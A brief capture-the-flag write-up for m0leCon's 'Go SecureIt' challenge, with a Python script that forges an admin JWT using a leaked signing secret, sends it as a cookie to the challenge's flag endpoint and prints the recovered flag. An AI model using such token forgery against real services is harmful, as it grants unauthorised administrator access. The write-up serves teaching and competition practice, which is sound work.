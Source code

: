 # m0leCon Beginner CTF

## Go SecureIt

> https://gosecureit.challs.m0lecon.it/

## Approach

The JWT secret is leaked.

```python
import requests
import jwt

url = "https://gosecureit.challs.m0lecon.it/flag"

payload = {
    "username": "admin",
    "role": "admin",
}

token = jwt.encode(payload, "schrody_is_always_watching", algorithm="HS256")
print(token)

resp = requests.get(url, cookies={"jwt": token})
print(resp.text)
```

## Flag

```
ptm{Th4t'5_why_1t'5_c4ll3d_53cr3t?}
```
